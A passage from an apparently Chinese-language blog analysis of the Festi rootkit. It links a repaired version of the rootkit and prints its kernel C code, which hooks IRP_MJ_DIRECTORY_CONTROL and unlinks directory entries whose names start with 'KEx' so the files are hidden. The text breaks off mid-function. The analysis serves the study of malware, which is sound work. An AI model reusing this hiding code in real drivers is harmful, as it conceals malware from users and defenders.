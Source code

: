 这里我们拿之前的rookit举例：

#### Festi Rootkit

曾经再过去的一段时间里，Festi Rootkit 是全球最活跃的 rootkit之一，其内核层实现文件隐藏的方式如下，笔者通过修复相关老项目代码，还原了该操作的实现：

参考：https://github.com/loneicewolf/KernelMode-Code/tree/004c1bd1cd297ff815ba40ed2adbe9daacbed1f1/FestiRootkit

还原之后的项目：https://github.com/minhangxiaohui/FestiRootkit_fix

关键代码：如下，为驱动对象注册IRP_MJ_DIRECTORY_CONTROL信号，并实现相关回调处理逻辑，提取文件名，文件目录名，判断是否以KEx开头，匹配就直接把其从链表中去掉（windows 目录列表内核处理的时候就是一个类似链表的东西，把一个个文件链接到一起，这里隐藏操作就是链表断链操作）

```c
	KExplorer::KDriverObj->MajorFunction[IRP_MJ_DIRECTORY_CONTROL] =
		[](PDEVICE_OBJECT DeviceObj, PIRP Irp)
	{
		DbgPrint("run IRP_MJ_DIRECTORY_CONTROL\n");
		IoCopyCurrentIrpStackLocationToNext(Irp);
		IoSetCompletionRoutine(Irp,
			(PIO_COMPLETION_ROUTINE)SystemRootHookCompletionRoutine,
			IoGetCurrentProcess(),
			TRUE, TRUE, FALSE);
		return IoCallDriver(((SysRootExtension*)DeviceObj->DeviceExtension)->LowerDevice,
			Irp);

	};
	
NTSTATUS
SystemRootHookCompletionRoutine(
	PDEVICE_OBJECT Device,
	PIRP Irp,
	PEPROCESS Process
)
{
	auto Extension = (SysRootExtension*)Device->DeviceExtension;
	auto Stack = IoGetCurrentIrpStackLocation(Irp);

	if (KeGetCurrentIrql() == PASSIVE_LEVEL)
	{
		if (Extension->WhichDevice == 1 &&
			Stack->MajorFunction == IRP_MJ_DIRECTORY_CONTROL &&
			Stack->MinorFunction == IRP_MN_QUERY_DIRECTORY &&
			Process != nullptr)
		{
			DbgPrint("run IRP_MJ_DIRECTORY_CONTROL AND 1\n");
			KAPC_STATE ApcState;
			KeStackAttachProcess((PRKPROCESS)Process, &ApcState);

			switch (Stack->Parameters.QueryDirectory.FileInformationClass)
			{
			case FileBothDirectoryInformation:
			{
				if (!Irp->IoStatus.Information || !Irp->UserBuffer)
				{
					break;
				}
				DbgPrint("run IRP_MJ_DIRECTORY_CONTROL AND 1 AND 2\n");
				auto FileInfo = (PFILE_BOTH_DIR_INFORMATION)Irp->UserBuffer;
				auto Previous = FileInfo;
				while (FileInfo->NextEntryOffset)
				{
					if (FileInfo->FileNameLength > 3)
					{
						if (FileInfo->FileName[0] == L'K' &&
```